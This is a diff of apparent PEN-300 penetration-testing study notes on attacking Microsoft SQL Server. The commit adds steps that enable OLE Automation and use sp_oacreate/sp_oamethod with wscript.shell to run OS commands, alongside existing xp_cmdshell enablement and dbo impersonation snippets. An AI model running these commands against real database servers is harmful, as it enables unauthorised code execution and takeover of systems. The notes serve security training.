

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: MSSQL Advanced Attacks.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/MSSQL Advanced Attacks.md
+++ b/MSSQL Advanced Attacks.md
@@ -114,7 +114,9 @@ Now, to impersonate we can use this statements:
 2. EXECUTE AS USER = 'dbo';
 ```
 
-**CODE EXECUTION(through xp_cmdshell):**
+**CODE EXECUTION:**
+
+*Through xp_cmdshell:*
 
 Use this commands at this order:
 
@@ -122,6 +124,24 @@ Use this commands at this order:
 1st EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
 
 2nd EXEC xp_cmdshell "whoami";
+```
+
+*Through sp_oacreate and sp_oamethod:*
+
+First, we will instanitate Windows Script Host using the "sp_oacreate" statement, and then we will use the "sp_oamethod" to call the Windows Script Host "run" method.
+
+```
+1. DECLARE @myshell INT;      -> the "@myshell" variable is where we want our OLE object to be stored
+
+2. EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT;
+
+3.  EXEC sp_oamethod @myshell, 'run', null, 'whoami';
+```
+
+However, since "sp_oacreate" and "sp_oamethod" are disabled by default we must first enable them:
+
+```
+1. EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
 ```
 
 **CODE EXECUTION ON A LINKED MSSQL SERVER:**
````
